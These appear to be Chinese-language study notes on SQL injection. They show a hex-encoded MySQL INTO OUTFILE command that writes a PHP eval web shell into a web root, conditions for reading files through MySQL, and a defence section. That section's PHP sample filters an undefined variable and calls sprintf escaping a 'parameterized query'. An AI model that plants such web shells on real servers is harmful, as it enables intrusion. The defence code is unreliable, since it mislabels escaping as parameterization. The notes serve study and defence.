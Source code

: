 #### getshell

hex编码

```sql
select 0x3c3f70687020406576616c28245f4745545b2778275d293b203f3e into outfile 'E:/phpStudy/WWW/1.php'
select "123" into outfile 'E:/phpStudy/WWW/1.txt';
```

#### SQL文件读写

sql读文件需满足条件

1.secure_file_priv值允许对该路径下的文件进行操作

2.数据库用户（mysql的属主）对文件有读权限

3.当前数据库登录用户拥有file权限

查看方法：mysql> show grants for 用户名@localhost;
在这里插入图片描述4.知道文件的完整路径

5.文件大小小于max_allowed_packet（load_file()函数受到这个值的限制）

查看方法：mysql> show global variables like 'max_allowed%';
修改方法：mysql> set global max_allowed_packet = 5\*1024\*1024;

# SQL漏洞防御

- **使用参数化查询（Prepared Statements）**，避免SQL注入。
- **限制数据库权限**，避免普通查询能访问 `information_schema`。
- **过滤特殊字符**（如 `UNION`、`--`、`information_schema`）。

过滤特殊字符，采用参数化查询，使用户输入的参数永远为普通字符，不会被作为特殊符号打乱原有sql语句。
```php
$mysqli = new mysqli("localhost", "root", "root", "dvwa");

$sqli = "a'b\"c";
$safeinsert = preg_replace("/[\'\"]+/", '', $sqli);//正则过滤单双引号
$safeinsert = str_replace("select", "_", $id);//过滤select关键字，可以大小写双写绕过
echo $safeinsert;

$name = "Jack";
$age = 30;
$gender = "male";
$sentence = sprintf("My name is %s. I am %d years old and I am a %s.", $name, $age, $gender);

echo $sentence;

//参数化查询
$mysqli = new mysqli("localhost", "root", "root", "pikachu");
$id="111'";
$query=sprintf("select * from users where id='%s'",mysqli_real_escape_string($mysqli,$id));
echo $query;

?>
```
